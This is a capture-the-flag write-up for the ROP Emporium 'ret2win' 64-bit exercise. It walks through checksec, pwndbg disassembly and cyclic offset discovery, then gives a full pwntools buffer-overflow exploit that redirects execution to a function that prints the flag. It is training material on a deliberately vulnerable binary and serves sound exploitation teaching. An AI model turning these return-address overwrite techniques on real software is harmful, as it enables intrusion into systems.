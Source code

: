 ## 64 bits

```
$ checksec ret2win
[*] '/home/localuser/ropemporium/ret2win/64bits/ret2win'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

Let's open the binary on GDB and start analyzing it:

```bash
pwndbg> info func
All defined functions:

Non-debugging symbols:
0x0000000000400528  _init
0x0000000000400550  puts@plt
0x0000000000400560  system@plt
0x0000000000400570  printf@plt
0x0000000000400580  memset@plt
0x0000000000400590  read@plt
0x00000000004005a0  setvbuf@plt
0x00000000004005b0  _start
0x00000000004005e0  _dl_relocate_static_pie
0x00000000004005f0  deregister_tm_clones
0x0000000000400620  register_tm_clones
0x0000000000400660  __do_global_dtors_aux
0x0000000000400690  frame_dummy
0x0000000000400697  main
0x00000000004006e8  pwnme
0x0000000000400756  ret2win
0x0000000000400780  __libc_csu_init
0x00000000004007f0  __libc_csu_fini
0x00000000004007f4  _fini
```

```
pwndbg> disassemble ret2win 
Dump of assembler code for function ret2win:
   0x0000000000400756 <+0>:     push   rbp
   0x0000000000400757 <+1>:     mov    rbp,rsp
   0x000000000040075a <+4>:     mov    edi,0x400926
   0x000000000040075f <+9>:     call   0x400550 <puts@plt>
   0x0000000000400764 <+14>:    mov    edi,0x400943
   0x0000000000400769 <+19>:    call   0x400560 <system@plt>
   0x000000000040076e <+24>:    nop
   0x000000000040076f <+25>:    pop    rbp
   0x0000000000400770 <+26>:    ret    
End of assembler dump.
pwndbg> x/s 0x400943
0x400943:       "/bin/cat flag.txt"
```

So there's `pwnme`, `ret2win`, `main` calls `pwnme`and pwnme it's using `read` that is vulnerable to a buffer overflow, `ret2win` is calling `system`, with the argument `/bin/cat flag.txt`

First let's find the offset by generating a cyclic pattern:

```python
>>> cyclic(100)                                                                                                                                                                        
b'aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaaataaauaaavaaawaaaxaaayaaa'
```

Now send it to the binary and with pwndbg see the value of `RSP`:
```bash
RSP  0x7fffffffdec8 ◂— 0x6161616c6161616b ('kaaalaaa')
```

And use the `cyclic_find()` function:

```python
>>> cyclic_find(0x6161616b)
40
```

So the offset it's at 40 bytes, now take the address of the `ret2win` function, and the final exploit would be like this:

```python
from pwn import *

p = process("./ret2win")
elf = ELF("./ret2win")


ret2win_addr = p64(0x400764)

payload = b"a"*40
payload += ret2win_addr

p.recvuntil(">")
p.sendline(payload)
p.recvline()
p.interactive()
```





